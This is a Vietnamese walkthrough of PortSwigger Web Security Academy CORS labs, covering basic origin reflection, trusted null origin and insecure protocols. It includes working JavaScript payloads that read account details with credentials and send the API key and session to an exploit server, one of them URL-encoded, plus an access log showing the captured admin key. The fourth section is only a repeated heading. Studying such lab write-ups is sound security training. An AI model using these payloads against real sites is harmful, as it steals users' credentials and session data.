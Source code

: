 # 1. CORS vulnerability with basic origin reflection
Ta thấy khi gửi request `GET /accountDetails`, trong response sẽ chứa thông tin đầy đủ về user trong phiên hiện tại. Như vậy ta vào exploit server và cấu hình đoạn code sau:

```
<script>
let xhr = new XMLHttpRequest();
xhr.onload = sendRequest;
xhr.open('GET', 'https://0a9f008704a74bedc06f45ff00f600cd.web-security-academy.net/accountDetails');
xhr.withCredentials = true;
xhr.send();

function sendRequest(){
fetch('https://exploit-0ab7003c04f14b63c07644d50138000b.exploit-server.net/exploit?apiKey='+this.responseText);
}
</script>
```
Đoạn script trên sẽ gửi request đến `/accountDetails`, lấy ra response rồi đặt làm tham số trong request gửi tới exploit server mà ta kiểm soát.

Sau khi click "Deliver to victim", vào Access log ta thấy có một request với tham số apiKey là một object:

![image](https://user-images.githubusercontent.com/103978452/210699785-c2fc9ed4-50fa-4d0c-82cd-3424d39d6f3b.png)

Thực hiện URL decode, rồi lấy giá trị của trường "apikey" để submit, kết quả thành công.

# 2. CORS vulnerability with trusted null origin
Nhận thấy trong request `/accountDetails`, khi đặt `Origin: null` thì response trả về chứa header `Access-Control-Allow-Origin: null`. Như vậy ta có thể exploit bằng cách dùng tag iframe để tự động thiết lập `Origin: null`.

Vào exploi server và cấu hình đoạn code sau:
```
<iframe src="data:text/html,<script>let xhr = new XMLHttpRequest();
xhr.onload = sendRequest;
xhr.open('GET', 'https://0a47008204d3fe7bc0c6c26e00f2002c.web-security-academy.net/accountDetails');
xhr.withCredentials = true;
xhr.send();

function sendRequest(){
document.location='https://exploit-0a400044046dfe6ec0d3c132019600e6.exploit-server.net/?data='+this.responseText;
}
</script>">
```

Do thẻ iframe có thuộc tính `src="data:text/html,....`, Origin sẽ tự động được thiết lập là null và từ đó có thể bypass CORS. Sau khi click "Deliver to victim", vào trong Access log thì ta thấy có request:
```
10.0.4.254      2023-01-06 08:51:25 +0000 "GET /?data={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22n2daOK1lnvFCmG9DwadLa7iTt1vZieUi%22,%20%20%22sessions%22:%20[%20%20%20%20%22OZnSVCGK2EuB1QXu7RplVCP9Osicu5Gg%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
```

Tiến hành URL decode, ta thu được `apikey=n2daOK1lnvFCmG9DwadLa7iTt1vZieUi`. Submit thông tin có được, kết quả thành công.

# 3. CORS vulnerability with trusted insecure protocols

%3Cscript%3Elet%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3Bxhr.onreadystatechange%20%3D%20printResponse%3Bxhr.open%28%27GET%27%2C%20%27https%3A%2F%2F0af4007804f8391dc0d57751008800c4.web-security-academy.net%2FaccountDetails%27%29%3Bxhr.withCredentials%20%3D%20true%3Bxhr.send%28%29%3Bfunction%20printResponse%28%29%7B%20%20%20%20document.location%20%3D%20%27https%3A%2F%2Fexploit-0a9a005e04143974c0e176c101cf0087.exploit-server.net%2F%3Fkey%3D%27%2BencodeURIComponent%28this.responseText%29%3B%7D%3C%2Fscript%3E

# 4. CORS vulnerability with internal network pivot attackCORS vulnerability with internal network pivot attack

